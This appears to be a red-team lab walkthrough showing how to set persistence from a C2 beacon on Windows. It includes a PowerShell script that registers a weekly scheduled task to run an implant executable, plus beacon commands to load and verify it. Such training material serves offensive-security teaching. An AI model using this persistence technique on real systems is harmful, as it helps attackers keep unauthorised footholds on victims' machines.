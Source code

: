 # Setting Persistence

1. With your new beacon lets set simple persistence using `scheduled task` 
2. On parrot lets create a `.ps1` for our persistence 
3. If you have sublime installed run , alternatively use vim
    ```
    subl scktask.ps1
    ```

    ```
    vim scktask.ps1
    ```
4. Paste the following and save your script
    ```powershell
    $outpath = "C:\window\public\downloads\test.exe"
    $action = New-ScheduledTaskAction -Execute $outpath
    $days = 'Monday', 'Tuesday', 'Wednesday', 'Thursday', 'Friday'
    $trigger = New-ScheduledTaskTrigger -weekly -DaysOfWeek $days -At 8am
    Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "Persistence Test" -Description "We got persistence"
    ```
5. In your beacon run pslo
    ```powershell
    pslo 
    ```
6. You should get confirmation your script work 

7. Lets verify our persistence is working by running sharpps 
    ```powershell
    sharpps get-scheduledtask -Taskname "Persistence Test"
    ```